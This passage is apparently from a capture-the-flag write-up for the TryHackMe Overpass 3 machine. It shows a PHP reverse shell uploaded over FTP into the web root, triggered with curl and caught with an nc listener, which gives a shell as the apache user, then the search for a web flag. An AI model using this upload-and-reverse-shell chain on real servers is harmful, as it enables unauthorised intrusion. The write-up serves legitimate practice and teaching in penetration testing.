 ```console
-rw-r--r--    1 0        0            1770 Nov 17 20:42 index.html
-rw-r--r--    1 0        0             576 Nov 17 20:42 main.css
-rw-r--r--    1 0        0            2511 Nov 17 20:42 overpass.svg
226 Directory send OK.
```
<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/overpass-3/2.png">

Knowing that the web server is running php I used a php reverse shell script to get a shell.

```console
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.

#using curl
┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3/ftp]
└─# curl http://overpass.thm/shell.php

#getting reverse shell
┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3]
└─# nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.153.169 35162
Linux localhost.localdomain 4.18.0-193.el8.x86_64 #1 SMP Fri May 8 10:59:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:29:30 up  1:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (850): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ whoami
whoami
apache
```

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/overpass-3/3.png">

I found the web flag in /usr/share/httpd

```console
sh-4.4$ ls -la
ls -la
total 24
drwxr-xr-x.  5 root root   63 Nov 17 20:54 .
drwxr-xr-x. 81 root root 4096 Nov  8 02:02 ..
drwxr-xr-x.  3 root root 4096 Nov  8 02:02 error
drwxr-xr-x.  3 root root 8192 Nov  8 02:02 icons
drwxr-xr-x.  3 root root  140 Nov  8 02:02 noindex
-rw-r--r--.  1 root root   38 Nov 17 20:54 web.flag
sh-4.4$ pwd
/usr/share/httpd
```
